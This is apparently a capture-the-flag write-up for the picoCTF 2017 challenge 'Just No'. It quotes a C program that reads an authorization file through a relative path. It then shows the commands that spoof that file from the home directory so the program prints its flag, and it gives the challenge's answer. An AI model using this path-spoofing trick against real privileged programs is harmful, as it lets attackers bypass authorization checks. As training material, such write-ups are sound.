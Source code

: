 # picoCTF 2017: Just No

**Level:** 1 **Category:** BINARY_EXPLOITATION **Point:** 40 **Description:**

>A program at /problems/ab718be873f8a7efe966f4ed5af749eb has access to a flag but refuses to share it. Can you convince it otherwise?

**Hint:**

>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Write-up

``` 
$ cd /problems/ab718be873f8a7efe966f4ed5af749eb
ls
auth
flag
justno
justno.c
$ ./justno
auth file says no. So no. Just... no.
$ vim justno.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){
  FILE* authf = fopen("../../problems/ab718be873f8a7efe966f4ed5af749eb/auth","r"
); //access auth file in ../../../problems/ab718be873f8a7efe966f4ed5af749eb
  if(authf == NULL){
    printf("could not find auth file in ../../problems/ab718be873f8a7efe966f4ed5
af749eb/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/ab718be873f8a7efe966f4ed5af749eb/flag","r");
    char flag[64];
    fgets(flag,64,flagf);

```

This program use relative paths. So I just need add a fake path and a fake `auth` file.

```
$ cd ~
$ mkdir problems
$ mkdir problems/ab718be873f8a7efe966f4ed5af749eb
$ cd problems/ab718be873f8a7efe966f4ed5af749eb
$ echo "yes" > auth
$ /problems/ab718be873f8a7efe966f4ed5af749eb/justno
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 3a7cbd7c24f7d5369308333b045382e7
```

So the flag is `3a7cbd7c24f7d5369308333b045382e7`.